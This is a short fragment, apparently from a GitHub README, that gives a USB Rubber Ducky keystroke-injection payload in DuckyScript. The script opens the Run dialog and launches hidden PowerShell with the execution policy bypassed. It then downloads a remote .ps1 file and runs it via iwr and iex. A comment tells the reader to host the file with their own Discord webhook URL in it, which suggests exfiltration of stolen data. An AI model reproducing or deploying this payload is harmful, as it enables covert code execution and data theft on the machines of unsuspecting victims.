 #Here is the payload in DuckyScript format:

REM make sure to replace: `https://raw.githubusercontent.com/..LINK_TO../main/YourHostedFile.ps1` with your own url, with the modified discord webhook url in it too.
GUI r
DELAY 500
ALTSTRING powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iwr -useb 'https://raw.githubusercontent.com/..LINK_TO../main/YourHostedFile.ps1' | iex"
ENTER

